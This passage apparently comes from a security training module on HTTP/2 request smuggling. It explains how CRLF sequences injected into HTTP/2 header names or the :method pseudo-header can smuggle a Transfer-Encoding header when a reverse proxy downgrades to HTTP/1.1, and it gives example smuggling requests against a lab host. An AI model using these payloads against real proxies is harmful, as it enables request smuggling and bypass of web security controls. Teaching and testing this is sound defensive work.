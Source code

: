 A similar issue arises if the reverse proxy does not properly check the HTTP/2 header `names` before rewriting the request to HTTP/1.1. We might be able to create a request smuggling vulnerability with an HTTP/2 request like the following (header names are `red`, header values are `green`, and the request body is `yellow`):

```
:method POST
:path /
:authority http2.htb
:scheme http
dummy: asd\r\nTransfer-Encoding chunked
0

GET /smuggled HTTP/1.1
Host: http2.htb

```

The HTTP/2 request contains a header `dummy: asd\r\nTransfer-Encoding` with the value `chunked` since the CRLF sequence has no special meaning in HTTP/2. A vulnerable reverse proxy creates the following TCP stream:

```
POST / HTTP/1.1
Host: http2.htb
Dummy: asd
Transfer-Encoding: chunked
Content-Length: 48

0

GET /smuggled HTTP/1.1
Host: http2.htb

```

When rewriting the request to HTTP/1.1, the semantics of the CRLF sequence changes as it now separates headers from each other. Therefore, the HTTP/1.1 request now contains a header `Dummy` with the value `asd`, and a header `Transfer-Encoding` with the value `chunked`. Just like in the previous case, we have an `H2.TE` vulnerability since the TE header has precedence over the CL header in HTTP/1.1.

* * *

## Request Line Injection

Since pseudo-headers are special in HTTP/2, they might be treated differently. It might therefore be worth checking them separately, since potential validation checks may not be applied. For instance, we can achieve request smuggling if the reverse proxy does not properly check the HTTP/2 pseudo-headers before rewriting the request to HTTP/1.1 with an HTTP/2 request like the following (header names are `red`, header values are `green`, and the request body is `yellow`):

```
:method POST / HTTP/1.1\r\nTransfer-Encoding: chunked\r\nDummy: asd
:path /
:authority http2.htb
:scheme http
0

GET /smuggled HTTP/1.1
Host: http2.htb

```
